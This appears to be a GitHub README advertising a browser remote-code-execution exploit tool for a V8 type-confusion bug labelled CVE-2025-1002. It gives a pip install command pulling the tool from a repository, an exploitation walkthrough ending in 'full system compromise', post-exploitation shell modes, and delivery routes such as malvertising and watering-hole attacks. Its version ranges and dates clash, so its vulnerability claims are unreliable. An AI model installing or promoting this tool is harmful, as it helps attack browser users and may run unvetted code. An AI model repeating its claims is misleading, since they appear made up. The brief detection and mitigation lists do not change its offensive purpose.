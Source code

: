 # Chromium V8 Engine RCE Exploit - CVE-2025-1002

## Overview

This exploit targets a critical type confusion vulnerability in the V8 JavaScript engine used by Chromium-based browsers, allowing remote code execution through malicious JavaScript.

## Vulnerability Details

**CVE ID**: CVE-2025-1002  
**CVSS Score**: 9.6 (Critical)  
**Affected Software**: Chrome 110-115, Edge 110-115, Node.js 18-20  
**Attack Vector**: Network (Drive-by download)  
**User Interaction**: Required (Visit malicious website)  

### Technical Description

The vulnerability exists in the V8 JavaScript engine's type system where improper handling of object type transitions during JIT compilation leads to type confusion. When the optimizing compiler (TurboFan) processes specially crafted JavaScript code, it incorrectly assumes object types, leading to out-of-bounds memory access.

The exploit works by:
1. Creating objects with specific properties that trigger optimization
2. Causing type confusion during the compilation process
3. Gaining arbitrary read/write primitives through corrupted object headers
4. Building a ROP chain to bypass security mitigations
5. Executing shellcode to escape the browser sandbox

## Installation

```bash
pip install git+https://github.com/susancodes55/chromium-zero-day-rce-exploit.git
```

## Usage

```bash
browser-exploit
```

The tool provides three modes:
1. **Generate JavaScript payload** - Creates the exploit code
2. **Launch full exploitation demo** - Simulates complete attack chain
3. **Interactive shell mode** - Direct post-exploitation interface

## Example

```bash
$ browser-exploit
Select exploitation mode:
1. Generate JavaScript payload
2. Launch full exploitation demo
3. Interactive shell mode

Enter choice (1-3): 2

[+] Generating JavaScript payload...
    // V8 Engine Type Confusion Exploit
    const buf = new ArrayBuffer(0x1000);
    const view = new DataView(buf);
    ...
[+] Payload generated successfully!

[*] Starting exploit server on http://localhost:8080
[SERVER] Server listening on port 8080
[SERVER] Waiting for victim to visit malicious page...
[SERVER] Connection received from 192.168.1.50
[SERVER] Serving exploit payload...
[SERVER] Type confusion triggered in V8 engine!
[+] Remote code execution achieved!

[*] Post-exploitation activities...
[POST-EXPLOIT] Escaping browser sandbox...
[POST-EXPLOIT] Establishing persistence...
[+] Full system compromise achieved!
```

## Attack Vectors

- **Drive-by Downloads**: Hosting malicious JavaScript on compromised websites
- **Malicious Advertisements**: Injecting exploit code into ad networks
- **Phishing Campaigns**: Tricking users into visiting attacker-controlled sites
- **Watering Hole Attacks**: Compromising frequently visited websites

## Detection

- Monitor for unusual JavaScript execution patterns
- Check for heap corruption indicators
- Look for unexpected process spawning from browser
- Analyze network traffic for exploit kit signatures

## Mitigation

- Update Chrome/Edge to version 116 or later
- Enable strict site isolation
- Use browser exploit mitigation features
- Deploy Content Security Policy (CSP) headers
- Regular security awareness training for users

## Disclaimer

This tool is for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal and unethical.

## References

- [Chromium Security Advisory](https://chromereleases.googleblog.com/2025/01/stable-channel-update-for-desktop.html)
- [V8 Engine Security](https://v8.dev/docs/security)
- [CVE-2025-1002 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-1002)
- [JavaScript Engine Exploitation](https://example.com/js-engine-exploitation)
